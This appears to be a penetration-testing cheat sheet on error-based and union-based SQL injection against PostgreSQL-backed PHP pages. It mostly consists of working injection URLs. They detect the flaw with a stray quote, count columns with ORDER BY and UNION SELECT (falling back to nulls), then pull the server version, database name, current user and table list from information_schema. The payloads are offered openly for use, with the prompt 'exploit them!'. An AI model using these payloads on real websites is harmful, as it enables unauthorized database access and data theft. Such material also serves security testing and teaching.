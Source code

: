# SQLI (PostgreSQL) | Error Based

Context URL: \
`http://example.com/example/page.php?id=3`

To test if exists SQLI Error Based, try the:

```
http://example.com/example/page.php?id='
```

If **warnings** return to you, exploit them!

Note: Common error -> **Warning: pg\_exec()**

## Testing

First, test how far the order by arrives before giving an error. Ex:&#x20;

```
http://example.com/example/page.php?id=1 order by X
```

Note: Replace the **X** with **1, 2, 3, 4...** until it stops showing pages and displays a **warning.**

### Second method

Test how far the union select arrives before giving an error. Ex:

```
http://example.com/example/page.php?id=1 union select 1,2,3,4....
```

Note: If you get an error saying it doesn't accept integer union types, test with null values. Ex:

```
http://example.com/example/page.php?id=1 union select null,null,null,null....
```

## Exploit

**Context**: 4 numbers before the error\
**Context** URL: `http://example.com/example/page.php?id=1 union select null,null,null,null`

#### To show the Postgresql version on the screen:

```
http://example.com/example/page.php?id=1 union select null,version(),null,null
```

#### To show current database name :

```
http://example.com/example/page.php?id=1 union select null,current_database(),null,null
```

#### To show current user:

```
http://example.com/example/page.php?id=1 union select null,current_user(),null,null
```

#### To show tables

```
http://example.com/example/page.php?id=1 union select null,table_name,null,null from information_schema.tables
```

Note: To see how information-schema is handled in postgre and to exploit it in more ways, have a look at the official site: [<mark style="background-color:blue;">Click-Here</mark>](https://www.postgresql.org/docs/current/information-schema.html)<mark style="background-color:blue;"></mark>

